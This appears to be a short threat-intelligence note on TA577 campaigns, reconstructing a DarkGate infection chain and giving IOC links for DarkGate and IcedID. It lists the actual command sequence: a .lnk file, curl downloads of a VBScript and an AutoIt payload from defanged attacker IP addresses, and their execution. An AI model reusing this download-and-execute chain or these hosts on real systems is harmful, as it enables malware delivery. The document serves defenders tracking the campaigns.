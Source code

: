 
#DarkGate - #TA577 - url > .zip > .lnk > curl > .vbs > curl > au3 > .exe

cmd /c MFGT.lnk

curl http://136.244.92.]148/rdFR2/GbB -o fjw.vbs

wscript fjw.vbs

cmd /c mkdir c:\rqdp

curl http://81.19.135.]17:2351 -o nvptjf.au3

Autoit3.exe  nvptjf.au3

IOC's
https://github.com/pr0xylife/DarkGate/blob/main/DarkGate_01.10.2023.txt

### url > .xll > curl > .dll

[#IcedID](https://twitter.com/hashtag/IcedID?src=hashtag_click) - #TA577 - url > .xll > curl > .dll
https://twitter.com/Cryptolaemus1/status/1706635492224024765


![proxy everywhere](/assets/images/proxy5.png)
